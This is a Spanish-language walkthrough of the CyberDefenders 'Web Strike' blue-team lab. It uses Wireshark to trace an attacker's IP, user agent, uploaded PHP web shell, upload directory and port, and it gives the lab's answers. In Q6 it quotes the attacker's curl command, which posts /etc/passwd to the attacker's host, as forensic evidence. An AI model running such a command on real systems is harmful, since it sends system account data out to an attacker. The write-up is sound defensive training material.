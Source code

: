 ```yaml
---
title: Web Strike Blue Team Lab - Cyberdefenders
date: 2024-01-11
categories: [Write up, Cyberdefenders]
tags: [wireshark, forense, easy]     # TAG names should always be lowercase
---
```


En este desafío tendremos que realizar una análisis forense de redes con wireshark para obtener informacion sobre el atacante, archivos, origen, comandos.

![20240111182147.png](20240111182147.png)

- Link [Web Strike Blue Team Lab](https://cyberdefenders.org/blueteam-ctf-challenges/149#nav-questions)
- By: [CyberDefenders](https://cyberdefenders.org/)

# Walkthrough
--- 

## Q1

Comprender el origen geográfico del ataque ayuda a tomar medidas de bloqueo geográfico y al análisis de inteligencia de amenazas. ¿De qué ciudad se originó el ataque?
   
![20240109174058.png](20240109174058.png)

Haciendo uso de [https://www.cual-es-mi-ip.net/geolocalizar-ip-mapa](https://www.cual-es-mi-ip.net/geolocalizar-ip-mapa) buscaremos la ip 117.11.88.124

![20240109174122.png](20240109174122.png)

 - Tianjin

## Q2
    
Conocer el agente de usuario del atacante ayuda a crear reglas de filtrado sólidas. ¿Cuál es el agente de usuario del atacante?

![20240109174618.png](20240109174618.png)

![20240109174649.png](20240109174649.png)

![20240109174716.png](20240109174716.png)

```
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```

## Q3    

Necesitamos identificar si se explotaron vulnerabilidades potenciales. ¿Cuál es el nombre del shell web malicioso subido?

```
ip.src == 117.11.88.124 and http
```

![20240109180250.png](20240109180250.png)

![20240109180330.png](20240109180330.png)



## Q4

Conocer el directorio donde se almacenan los archivos cargados es importante para reforzar las defensas contra el acceso no autorizado. ¿Qué directorio utiliza el sitio web para almacenar los archivos cargados?

```php
http.request.uri contains "image.jpg.php"
```

![20240109183012.png](20240109183012.png)

![20240109180859.png](20240109180859.png)

```
/reviews/uploads/
```

## Q5

Identificar el puerto utilizado por el shell web ayuda a mejorar las configuraciones del firewall para bloquear el tráfico saliente no autorizado. ¿Qué puerto utilizó el shell web malicioso?

![20240109181431.png](20240109181431.png)

![20240109181651.png](20240109181651.png)

```
8080
```
## Q6

Comprender el valor de los datos comprometidos ayuda a priorizar las acciones de respuesta a incidentes. ¿Qué archivo intentaba exfiltrar el atacante?

![20240109184422.png](20240109184422.png)

![20240109184438.png](20240109184438.png)

![20240109184502.png](20240109184502.png)

```
curl -X POST -d /etc/passwd http://117.11.88.124:443/
```

Esta línea de comando en particular el atacante intenta enviar el contenido del archivo `/etc/passwd` como datos en una solicitud POST al servidor en la dirección IP `117.11.88.124` en el puerto `443`. El archivo `/etc/passwd` es un archivo de sistema en sistemas operativos basados en Unix/Linux que contiene información sobre cuentas de usuario.
¡VAMOS!
Happy hacking :).
